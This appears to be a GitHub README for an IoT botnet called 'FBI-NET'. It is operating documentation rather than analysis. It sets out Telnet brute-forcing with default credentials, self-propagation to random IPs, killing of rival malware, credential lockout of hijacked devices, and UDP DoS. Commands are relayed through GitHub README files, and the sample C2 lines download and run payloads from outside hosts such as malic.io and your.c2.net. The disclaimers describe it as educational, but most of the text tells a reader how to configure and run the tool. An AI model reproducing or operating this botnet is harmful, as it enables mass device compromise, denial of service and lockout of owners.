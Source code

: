 * C2 over GitHub raw links (multiple fallback READMEs)
* Brute-force login over Telnet
* Killer module that removes other malware
* "Permakill" feature: changes device login credentials

⚠️ **DISCLAIMER:** This content is strictly for *educational and authorized penetration testing* in controlled lab environments. Misuse of such tools is **illegal**.

---

### 🧠 Project: `FBI-NET`

> A simulated IoT botnet framework controlled via multiple GitHub `README.md` files. Supports brute-force propagation, malware killing, and credential lockdown.

---
### Guide for .py files
you have to edit  the .py files and confiure them 
snotscan for finding devices
serialkiller for killing other nets 
permakill patches all devices with your own credentials save them securly
thefinalbop puts your payloads into the server
openssh.py is a bot for controlling devices using github Readme.md configure your links inside the code

### ✅ Features

* 📦 **Command & Control** via multiple GitHub `README.md` files
* 🔁 **Fallback Mechanism**: rotates through GitHub links until a working `### run` section is found
* 🕷️ **Brute-Forcing Engine**: cracks Telnet devices using default credentials
* ⚔️ **BotKiller Module**: terminates known malware processes and ports
* 🛡️ **Permakill Mode**: replaces Telnet credentials to block re-infection
* 🚀 **Async-Driven**: high-speed, concurrent scanning and infection

---

### 🗂️ GitHub `README.md` Format (C2)

Each C2 GitHub `README.md` must include a `### run` section:

```
### run
cmd echo Bot active on device
download http://malic.io/payload.sh /tmp/payload.sh RUN
dos 192.168.0.10 80 30
```

**Supported Commands:**

| Command     | Description                                |
| ----------- | ------------------------------------------ |
| `cmd`       | Executes shell commands                    |
| `download`  | Downloads and optionally runs files        |
| `dos`       | Performs a basic UDP DoS attack            |
| `permakill` | Changes device credentials to block access |
| `selfkill`  | Terminates self on the device              |

---

### 🧰 Default Credentials Format

Provide a text file like `creds.txt` with lines:

```
admin:admin
root:1234
user:password
```

---

### 📁 Files & Structure

```bash
bot.py               # Main infection and C2 logic
brute_force.py       # Telnet brute-forcing
killer.py            # Process killer module
permakill.py         # Changes credentials after install
github_c2.py         # C2 polling from multiple README.md links
creds.txt            # Default credential pairs
readmes.txt          # List of GitHub raw README.md C2 links
hits.txt             # Infected and confirmed targets
```

---

### 🚀 Execution Flow

1. Loads GitHub `README.md` URLs from `readmes.txt`
2. Finds the first with a `### run` section
3. Executes each command listed
4. If `brute` is enabled:

   * Scans random IPs
   * Brute-forces Telnet with `creds.txt`
   * On success, runs `bot.py` on target
5. Kills competing malware using `killer.py`
6. Replaces device credentials with `permakill.py` (if `permakill` enabled)

---

### 🧪 Sample C2 Behavior

```
### run
cmd uname -a
download http://your.c2.net/bin/armv7 /tmp/a RUN
permakill newuser:newpass
```

---

### 🛑 Legal Notice

> This project is intended **only** for:
>
> * Ethical hacking education
> * Red team exercises in controlled environments
> * Simulated botnet defense training

**Unauthorized use will violate criminal law.**
Always obtain explicit **written permission** before testing networks or devices.
